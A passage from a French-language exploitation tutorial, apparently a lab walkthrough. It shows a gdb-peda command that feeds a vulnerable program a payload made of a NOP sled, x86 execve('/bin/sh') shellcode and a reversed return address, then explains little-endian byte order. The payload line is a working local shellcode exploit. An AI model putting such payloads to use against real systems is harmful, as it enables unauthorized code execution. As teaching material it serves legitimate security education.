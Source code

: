 ```
gdb-peda$ d
gdb-peda$ r < <(python -c 'print "\x90"*18 + "\x83\xC4\x32\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\xf5\xc4\xff\xff"')
```

![gdb run payload](/img/gdb_run_payload.jpg)

Félicitations à vous !

***Je n'ai pas compris pourquoi nous avions dû inverser l'ordre des octets pour l'adresse du sled...***\
Effectivement, je n'ai pas donné d'explication sur cette inversion. En informatique, il y a deux façons d'écrire une adresse et on appelle cela l'[endianness](https://fr.wikipedia.org/wiki/Endianness). Les architectures de processeurs utilisent l'une ou l'autre :

- Big endian : l'ordre des octets sont de gauche à droite (octets de poids fort au poids faible). Par exemple `0xA0B70708` => `A0 B7 07 08`.
- Little endian : l'ordre des octets sont de droite à gauche (octets de poids faible au poids fort). Par exemple `0xA0B70708` => `08 07 B7 A0`. C'est cet ordre qui est **utilisé par les architectures X86**.